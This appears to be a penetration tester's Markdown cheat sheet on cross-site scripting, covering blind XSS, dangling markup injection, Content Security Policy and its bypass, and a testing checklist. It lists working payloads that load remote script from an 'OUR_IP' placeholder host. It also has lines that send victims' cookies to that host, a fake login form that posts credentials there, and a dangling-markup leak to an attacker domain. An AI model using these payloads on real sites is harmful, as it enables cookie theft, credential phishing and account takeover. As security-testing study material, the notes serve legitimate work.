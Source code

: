 # Cross-Site Scripting
- [Blind XSS](#blind-xss)
- [Dangling Markup Injection](#dangling-markup-injection)
- [Content Security Policy (CSP)](#content-security-policy-csp)
- [Testing](#testing)


> [!NOTE]
> XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).


## Blind XSS
- A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to. Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

    - Contact Forms
    - Reviews
    - User Details
    - Support Tickets
    - HTTP User-Agent header

- Payloads trigger Blind XSS:
    - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)
```javascript
<script src='http://OUR_IP'></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

- Grab the cookies:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

- **Phishing**
    - Login form
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

## Dangling Markup injection
- Dangling Markup Injection
    - It's a technique hackers use to grab sensitive data from websites in cases where a full-fledged cross-site scripting (XSS) attack isn't an option.

- **How Does It Work?**
    - Imagine a website takes some user input and includes it directly in its HTML code, like this: `<input type="text" name="input" value="USER DATA HERE">`

    - If regular XSS is blocked (due to filters or security policies), the attacker might use dangling markup. They inject something like this: `"><img src='//attacker-website.com?`

    - It begins defining a `src` (source) attribute but leaves it incomplete (or "dangling").
    - The browser will keep looking for where the attribute ends, and during this process, it may accidentally include part of the webpage's response as part of the URL.
    - Anything following the injection point in the webpage's response, like CSRF tokens or user data, might be sent to the attacker's server.

## Content Security Policy (CSP)
- CSP is a browser security mechanism that aims to mitigate XSS and some other attacks. 
- It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.

- To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.

```javascript
# Directive will only allow scripts to be loaded from the same origin as the page itself: 
script-src 'self'
# Directive will only allow scripts to be loaded from a specific domain:
script-src https://scripts.normal-website.com
```

- CSP also provides two other ways of specifying trusted resources:
    1. The CSP directive can specify a nonce (a random value) and the same value must be used in the tag that loads a script. If the values do not match, then the script will not execute. To be effective as a control, the nonce must be securely generated on each page load and not be guessable by an attacker.

    2. The CSP directive can specify a hash of the contents of the trusted script. If the hash of the actual script does not match the value specified in the directive, then the script will not execute. If the content of the script ever changes, then you will of course need to update the hash value that is specified in the directive.


- **Bypassing CSP with policy injection**
    - You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives. 
    - Usually, this `report-uri` directive is the final one in the list. This means you will need to overwrite existing directives in order to exploit this vulnerability and bypass the policy.
    - `https://WEBSITE/?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'`

## Testing 
- [ ] Check for any reflection

- [ ] XSS context is inside a quoted string literal
    - [ ] `'-alert(document.domain)-'`
    - [ ] `';alert(document.domain)//`

- [ ] Hidden inputs
    - [ ] Check for href in canonical link tag `<link rel="canonical" href='http://WEBSITE/?'accesskey='x'onclick='alert(1)'/>`
    - [ ] Check forms `<input type="hidden" accesskey="x" onclick="alert(1)">`

- [ ] Check for CSTI (Angularjs, Vuejs)
- [ ] Check for DOM XSS (using DOM invader)


- [XSS Filter bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/1%20-%20XSS%20Filter%20Bypass.md#bypass-using-bom)



- **Resources** 
    - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
    - [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)
